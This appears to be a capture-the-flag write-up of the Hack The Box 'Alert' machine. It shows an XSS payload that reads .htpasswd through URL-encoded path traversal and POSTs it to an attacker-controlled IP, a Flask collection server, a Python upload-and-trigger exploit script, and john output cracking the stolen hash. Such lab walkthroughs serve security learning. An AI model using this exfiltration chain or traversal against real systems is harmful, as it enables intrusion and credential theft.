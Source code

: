 # Alerts

ports:

22, 80


dns => statistics.alert.htb (requires authorization)

fuzzing => messages.php

afetr upload a file, the page visualizer.php show the markdown content and get a link share
http://alert.htb/visualizer.php?link_share=6742caf1caf786.48612401.md

## attempting xss

nc -nvlp 80

```javascript
fetch("/messages.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%76%61%72%2f%77%77%77%2f%73%74%61%74%69%73%74%69%63%73%2e%61%6c%65%72%74%2e%68%74%62%2f%2e%68%74%70%61%73%73%77%64")
  .then(response => response.text())
  .then(data => {
    console.log("Fetched data:", data);
    fetch("http://10.10.14.6:8000", {
      method: "POST",
      headers: {
        "Content-Type": "text/plain"
      },
      body: data
    });
    return data;
  });
```

flask server
```python
#!/usr/bin/python3


from flask import Flask, request


app = Flask(__name__)


@app.route("/", methods=["GET", "POST"])
def hackthur():

    if request.method == "POST":
        data = request.data.decode("utf-8")
        print(f"received data {data}")
        # return "Data received", 200
        response = app.response_class("")
        response.headers["Access-Control-Allow-Origin"] = "*"
        response.headers["Access-Control-Allow-Methods"] = "POST, OPTIONS"
        response.headers["Access-Control-Allow-Headers"] = "Content-Type"
        return response
    elif request.method == "GET":
        print(f"received {data} GET")
        return "GET", 200
    else:
        return "Listtening for POST request", 200




if __name__ == "__main__":
	app.run("0.0.0.0", port=8000)

```


the exploit 

```python
#!/usr/bin/python

import requests
import re
import base64

with open("./script.js") as payload:
    content = payload.read()
base64_content = base64.b64encode(content.encode()).decode()
file = ("# hello, world\n"
        "hello world\n"
        "<img onerror=\"eval(atob('{}'))\" src=\"/\">".format(base64_content))

post_files = {"file": ("test.md", file, "text/markdown")}
post_url = "http://alert.htb/visualizer.php"
post_resp = requests.post(post_url, files=post_files)
sharing_url = re.findall("http://alert.htb/.*\\.md", post_resp.text)

print("sharing_url: {}".format(sharing_url[0]))

contact_url = "http://alert.htb/contact.php"
contact_data = {"email": "a@a.a", "message": sharing_url}
contact_resp = requests.post(contact_url, data=contact_data)
if contact_resp.ok:
    print("Success")
else:
    print("Failed")

```
the hashcode

</pre>                                                         
                                                               
10.10.11.44 - - [26/Nov/2024 23:27:31] "POST / HTTP/1.1" 200 - 
received data <pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>                                                         
                                                               

using john

```bash
❯ john --wordlist=/opt/SecLists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:45 DONE (2024-11-26 23:33) 0g/s 133359p/s 133359c/s 133359C/s  edizzle69..*7¡Vamos!
Session completed. 
❯ john --wordlist=/opt/SecLists/rockyou.txt hash --format=md5crypt-long
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (albert)     
1g 0:00:00:00 DONE (2024-11-26 23:33) 9.090g/s 25600p/s 25600c/s 25600C/s meagan..medicina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```